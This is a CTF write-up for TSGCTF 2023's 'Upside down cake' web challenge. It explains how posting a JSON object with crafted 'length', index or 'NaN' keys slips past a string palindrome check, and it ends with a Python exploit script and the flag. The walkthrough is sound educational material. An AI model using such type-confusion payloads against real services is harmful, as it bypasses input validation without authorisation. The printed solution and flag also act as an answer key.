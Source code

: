 ```yaml
---
title: 2023 TSGCTF - Upside down cake
author: thanguyen165
date: 2023-11-04 00:00:00 +0700
categories: [Write-ups, 2023_TSGCTF]
tags: [Web Exploitation]
---
```


* 100 points / 127 solves
* Author: hakatashi
* tag: warmup

## Description

> I checked 413 times to see if the settings are correct.

### Attached

```js
import {serve} from '@hono/node-server';
import {serveStatic} from '@hono/node-server/serve-static';
import {Hono} from 'hono';

const flag = process.env.FLAG ?? 'DUMMY{DUMMY}';

const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}

const app = new Hono();

app.get('/', serveStatic({root: '.'}));

app.post('/', async (c) => {
	const {palindrome} = await c.req.json();
	const error = validatePalindrome(palindrome);
	if (error) {
		c.status(400);
		return c.text(error);
	}
	return c.text(`I love you! Flag is ${flag}`);
});

app.port = 12349;

serve(app);
```
{: file="main.mjs" }

## Analyzation

In this challenge, we have to pass the checker ```validatePalindrome(palindrome)``` to get flag

```js
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

Firstly, I thought that just post a string length 1000 and get flag. But not so fast like that, check ```nginx.conf``` file

```conf
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```
{: file="nginx.conf" }

So we must post a string with length < 100, but bypass the checker. Sounds impossible...

Hmm...

## Vulnerability

Who said that only string is allowed?

## Exploitation

We can post an object, or an array.

Array dont work here, because it wont pass the length condition.

We need a data type that dont have length attribute.

That's object, aka map in C++, dictionary in Python.

### Way 1

With an object, ```string.length``` returns ```undefined```, an the condition ```string.length < 1000``` returns ```true```. Pass!

But there is a problem with the loop. The index ```string.length - i - 1``` is inaccessible.

Slow down a little bit, ```string.length - i - 1``` equals to ```NaN```, so just give an object attribute ```NaN```, done!

This is the data will be post to the site.

```py
data = {
	"0": "a",
	"NaN": "a"
}
payload = { "palindrome": data}
```

### Way 2

This is an object, so its attributes are accessible by dot operator, too! It took me so many time to realise this.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}
```

***Note***: Python is different from javascript.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}

print(data["length"]) # print 1000
print(len(data))	  # print 3
print(data.__len__()) # print 3
```

## Solution

```py
import requests

# URL = "http://localhost:12349/"
URL = "http://34.84.176.251:12349/"
HEADERS = {'Content-Type': 'application/json'}

data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}

response = requests.post(URL, json=payload, headers=HEADERS)
print(response.content)
```

The flag is

```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```